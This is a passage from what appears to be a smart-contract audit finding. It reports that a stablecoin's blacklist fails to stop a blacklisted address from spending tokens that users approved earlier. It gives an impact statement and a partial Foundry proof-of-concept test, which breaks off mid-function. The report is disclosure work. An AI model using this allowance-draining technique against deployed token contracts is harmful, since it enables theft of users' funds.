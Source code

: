 ### Impact

The users suffer an approximate loss of the tokens they had approved to the blacklisted address. The attacker gains unauthorized access to users' tokens despite being blacklisted, continuing malicious activities and potentially leading to significant financial losses for users.

Furthermore, this vulnerability allows attackers to exploit prior approvals even after being blacklisted. Attackers can trick users into granting allowances through phishing schemes or malicious transactions. Once blacklisted, they can still drain users' approved tokens, bypassing the blacklist's intended security measures and undermining regulatory compliance efforts.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";

import {Stablecoin} from "../src/stablecoin/Stablecoin.sol";

contract testBlacklist is Test {
    address owner;
    address hacker;
    address user;

    Stablecoin stablecoinInstance;

    function setUp() public {
        vm.createSelectFork("https://rpc.sepolia.org");

        owner = vm.addr(0x1);
        user = vm.addr(0x2);
        hacker = vm.addr(0x3);

        vm.startPrank(owner);
        stablecoinInstance = new Stablecoin();
        stablecoinInstance.initialize("Blacklist", "BL", 18);

        vm.stopPrank();
    }

    function test_poc_blacklistedCanCallTransferFrom() public {
        deal(address(stablecoinInstance), hacker, 1 ether);
        deal(address(stablecoinInstance), user, 10 ether);

        assertEq(stablecoinInstance.balanceOf(hacker), 1 ether);
        assertEq(stablecoinInstance.balanceOf(user), 10 ether);
        console.log("Before user balance: ", stablecoinInstance.balanceOf(user));
        console.log("Before hacker balance: ", stablecoinInstance.balanceOf(hacker));
        
        vm.prank(user);
        stablecoinInstance.approve(hacker, 5 ether);

        vm.startPrank(owner);
        stablecoinInstance.grantRole(keccak256("BLACKLISTER_ROLE"), owner);
        stablecoinInstance.addBlackList(hacker);
        vm.stopPrank();

        assertEq(stablecoinInstance.balanceOf(hacker), 0 ether);

        address hacker2 = vm.addr(0x4);

```